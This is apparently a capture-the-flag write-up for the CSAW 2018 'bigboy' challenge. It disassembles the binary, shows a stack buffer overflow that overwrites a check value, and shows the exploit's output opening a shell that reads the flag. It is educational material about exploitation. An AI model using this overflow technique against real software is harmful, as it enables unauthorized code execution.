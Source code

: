 ```
bigboy

Only big boi pwners will get this one!

nc pwn.chal.csaw.io 9000
```

We are given a binary file that receives a user input, and after that, a date is printed and the binary
ends its execution.

```
./boi
Are you a big boiiiii??
asdf
Sat Sep 15 23:55:27 CST 2018
```

It doesn't matter how long is the user input, the result is the same.

#Analysis#
We fire up radare2 to take a peek at the binary, we immediately find some interesting stuff in the
main function as shown below.

![value](imgs/hardcoded.png)

At address 0x004006a8 we compare if the value stored in **local__1ch** is not equal to 0xcaf3baee,
if they are different we jump to 0x004006bb that calls /bin/date.

```asm
0x004006bb      bf86074000     mov edi, str.bin_date                ; 0x400786 ; "/bin/date"
0x004006c0      e861ffffff     call sym.run_cmd
```

Otherwise we continue execution at address 0x004006af, this address calls /bin/bash (probably we
are looking for this condition)

```asm
0x004006af      bf7c074000     mov edi, str.bin_bash                ; 0x40077c ; "/bin/bash"
0x004006b4      e86dffffff     call sym.run_cmd
```

However, **local__1ch** was assigned the value of 0xdeadbeef a few instructions above ...

```asm
0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
```

... but if we look carefully our controlled input **buf** is saved at offset rbp-0x30 and we are
writing 0x18 bytes to the stack, that is enough to write from rbp-0x30 to rbp-0x1c (offset of local_1ch).

Lets debug our binary with GDB and check what happens when we send 24 A's as our input ...

![write](imgs/overwrite.png)

After sending 24 A's we can see that we were able to write an arbitrary value at offset rbp-0x1c,
now we'll add the value 0xcaf3baee on the last 4 bytes and try our exploit ...

```
python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAîº _    ___        ____   ___  _ _ _ _
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/
***************************************
Are you a big boiiiii??
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
